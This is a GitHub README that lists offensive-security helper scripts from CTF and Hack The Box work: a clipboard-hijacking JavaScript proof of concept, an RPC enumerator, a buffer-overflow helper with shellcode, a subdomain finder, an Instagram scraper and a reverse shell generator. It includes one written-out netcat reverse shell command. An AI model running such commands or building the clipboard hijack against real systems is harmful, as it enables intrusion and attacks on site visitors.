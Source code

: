 # tidbits
Collection of small miscellaneous and/or interesting stuff that I might need again

### MaliciousCopyPaste.html
Small javascript PoC to hijack victims clipboard when they copy from site.

### RPyCenum.py
Script to pull some info out of RPC services. Written ages ago to deal with an HTB box that closed connections very quickly, cant remember which.

### bof\_bad\_chars\_skeleton.py
Mainly just offers a lazy way to generate string of all characters for bad char checking  
Also has a short /bin/sh shellcode because it is handy

### getcrtsh\_domains.py
Feed in a domain as an argument and it will search it on crt.sh, returning a list of all unique subdomains in the response

### instagrabber.py
Quickly written script that scrapes images from specified instagram account. Very basic, no error checking, doesnt dl videos or stories.

```
usage: instagrabber.py [-h] [-u USER] [-s SESSIONID] [-o OUT]

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER  unique profile name of account to scrape
  -s SESSIONID, --sessionid SESSIONID
                        session id cookie value
  -o OUT, --out OUT     folder to save images
```

### rsg.sh
Usage: `./rsg.sh <LHOST> <LPORT>`
  
A simple bash script to take input and output a bunch of reverse shell 1-liners. Not very original but here we go.   
Note: Does not include super basic cmds such as `nc -e /bin/sh 10.10.10.10 1337`
